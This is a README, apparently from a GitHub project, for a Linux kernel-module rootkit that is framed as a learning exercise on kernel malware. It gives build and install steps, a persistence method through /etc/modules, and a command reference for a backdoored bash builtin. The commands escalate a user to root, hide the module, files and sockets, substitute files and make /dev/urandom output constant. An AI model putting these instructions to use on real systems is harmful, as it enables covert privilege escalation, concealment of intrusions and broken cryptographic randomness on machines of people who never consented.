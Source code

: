 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go into bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistent,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```
<br />

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

<br />

to hide a file(s) or directory(s), use
```
gibroot hide <file> ...
```
to unhide files, use
```
gibroot show <file> ...
```

<br />

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

<br />

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

<br />

to whitelist processes and users from file hiding, use
```
gibroot wadd <TYPE> <NAME/ID> ...
```
to remove an entry from the whitelist, use
```
gibroot wrem <TYPE> <NAME/ID> ...
```
to view the entries in the whitelist, use
```
cat /proc/whitelist
```
supported types for the whitelist are PROCNAME,PID,UID,GID

<br />

to change the name of your bash process to something else, use
```
gibroot newname <NAME>
```
names of up to 16 characters are allowed (max length of comm field in a task struct)

<br />

to hide open sockets from userspace, use
```
gibroot hport <TYPE> <STYPE> <PORT> ...
```
to unhide open sockets, use
```
gibroot sport <TYPE> <STYPE> <PORT> ...
```
to see the contents of the socket blacklist, use
```
cat /proc/sock_blist
```
supported types for the blacklist are LOCAL, SOURCE, and DEST

supported stypes for the blacklist are STREAM, DGRAM, RAW, RDM, SEQPACKET, DCCP, and PACKET

NOTE: I have experienced a (possibly erroneous) deadlock involving ehash_locks with port/socket hiding

<br />

to substitute a file with another file when it is opened (or statted), use
```
gibroot frep <original file> <replacement file> ...
```
to undo this substitution, use
```
gibroot funrep <original file> ...
```
to see what files are being replaced/substituted, use
```
cat /proc/replacements
```

